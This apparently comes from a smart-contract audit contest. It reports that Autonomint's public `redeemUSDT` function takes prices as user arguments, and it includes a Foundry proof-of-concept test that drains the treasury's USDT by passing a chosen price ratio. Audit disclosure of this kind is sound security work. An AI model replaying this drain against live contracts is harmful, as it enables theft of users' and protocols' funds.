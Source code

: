 Fluffy Carbon Porcupine

High

# The redeem ratio in `redeemUSDT` is controlled by the user, which can lead to direct fund losses.

### Summary

user can directly control the price of usda/usdt when redeem usdt from usda. 

### Root Cause

https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L506-L525

redeemUSDT function is public. `usdaPrice` `usdtPrice` are both directly passed from arguments.

https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/lib/CDSLib.sol#L382-L405 usdtAmount is calculated and direct send to `msg.sender` from treasury.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker call redeemUSDT

### Impact

the attacker gains all USDT in treasury.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test,StdUtils,console} from "forge-std/Test.sol";
import {BorrowingTest} from "../../contracts/TestContracts/CopyBorrowing.sol";
import {Treasury} from "../../contracts/Core_logic/Treasury.sol";
import {Options} from "../../contracts/Core_logic/Options.sol";
import {MultiSign} from "../../contracts/Core_logic/multiSign.sol";
import {CDSTest} from "../../contracts/TestContracts/CopyCDS.sol";
import {TestUSDaStablecoin} from "../../contracts/TestContracts/CopyUSDa.sol";
import {TestABONDToken} from "../../contracts/TestContracts/Copy_Abond_Token.sol";
import {TestUSDT} from "../../contracts/TestContracts/CopyUsdt.sol";
import {HelperConfig} from "../../scripts/script/HelperConfig.s.sol";
import {DeployBorrowing} from "../../scripts/script/DeployBorrowing.s.sol";
import {State} from "../../contracts/interface/IAbond.sol";
import {IBorrowing} from "../../contracts/interface/IBorrowing.sol";
import {CDSInterface} from "../../contracts/interface/CDSInterface.sol";
import {ITreasury} from "../../contracts/interface/ITreasury.sol";
import {IOptions} from "../../contracts/interface/IOptions.sol";
import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
import { MessagingFee } from "@layerzerolabs/lz-evm-oapp-v2/contracts/oapp/OApp.sol";
import { OptionsBuilder } from "@layerzerolabs/lz-evm-oapp-v2/contracts/oapp/libs/OptionsBuilder.sol";
import {IGlobalVariables} from "../../contracts/interface/IGlobalVariables.sol";
import {IWrsETH} from "../../contracts/interface/IWrsETH.sol";

contract Issue1Test is Test {
    DeployBorrowing deployer;
    DeployBorrowing.Contracts contractsA;
    DeployBorrowing.Contracts contractsB;

    address ethUsdPriceFeed;

    address public USER = makeAddr("user");
    address public owner = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;
    address public owner1 = 0x70997970C51812dc3A010C7d01b50e0d17dc79C8;
    address public aTokenAddress = 0x4d5F47FA6A74757f35C14fD3a6Ef8E3C9BC514E8; // 0x4d5F47FA6A74757f35C14fD3a6Ef8E3C9BC514E8;
    address public cometAddress = 0xA17581A9E3356d9A858b789D68B4d866e593aE94; // 0x4Ddc2D193948926D02f9B1fE9e1daa0718270ED5;

    uint256 public ETH_AMOUNT = 1 ether;
    uint256 public STARTING_ETH_BALANCE = 100 ether;
    uint64 public ETH_PRICE = 1000e2;
    uint256 public ETH_VOLATILITY = 50622665;
    using OptionsBuilder for bytes;
    MessagingFee globalFee;
    MessagingFee globalFee2;
    MessagingFee globalFee3;

    function setUp() public {
        deployer = new DeployBorrowing();
        (contractsA,contractsB) = deployer.run();
        vm.deal(USER,STARTING_ETH_BALANCE);
        vm.deal(owner,STARTING_ETH_BALANCE);
        feeSetup();
    }

    function feeSetup() public {
        bytes memory options = OptionsBuilder.newOptions().addExecutorLzReceiveOption(400000, 0);
        bytes memory options2 = OptionsBuilder.newOptions().addExecutorLzReceiveOption(1200000, 0);
        bytes memory options3 = OptionsBuilder.newOptions().addExecutorLzReceiveOption(12500000, 0);

        globalFee = contractsA.global.quote(
            IGlobalVariables.FunctionToDo.UPDATE_GLOBAL,
            IBorrowing.AssetName.DUMMY,
            options,
            false
        );

        globalFee2 = contractsA.global.quote(
            IGlobalVariables.FunctionToDo(3),
            IBorrowing.AssetName.DUMMY,
            options2,
            false
        );

        globalFee3 = contractsA.global.quote(
            IGlobalVariables.FunctionToDo(5),
            IBorrowing.AssetName.DUMMY,
            options3,
            false
        );
    }

    modifier depositETHInB_CdsA {
        vm.startPrank(USER);
        contractsA.usdt.mint(address(USER),5000000000);
        uint256 usdtBalance = contractsA.usdt.balanceOf(address(USER));
        contractsA.usdt.approve(address(contractsA.cds),usdtBalance);
        contractsA.cds.deposit{value:globalFee.nativeFee}(uint128(usdtBalance),0,true,uint128(usdtBalance), ETH_PRICE);
        contractsB.borrow.depositTokens{value: (ETH_AMOUNT+globalFee.nativeFee)}(
            ETH_PRICE,
            uint64(block.timestamp),
            IBorrowing.BorrowDepositParams(
                IOptions.StrikePrice.TEN,
                110000,
                ETH_VOLATILITY,
                IBorrowing.AssetName.ETH,
                ETH_AMOUNT
            )
        );

        vm.stopPrank();
        _;
    }

    function testReedeemUSDT() public {
        contractsA.usdt.mint(address(contractsA.treasury), 10000e18);
        vm.startPrank(USER);
        contractsA.usda.mint(address(USER),1e18);
        contractsA.usda.approve(address(contractsA.cds), 1e18);
        contractsA.cds.redeemUSDT{value: 0.01 ether}(1e18, 10000, 1); // fee: about 0.005 ether
        vm.stopPrank();
        assertEq(contractsA.usdt.balanceOf(USER), 10000e18);
        //USDT in treasury is stolen
    }
}
```

### Mitigation

_No response_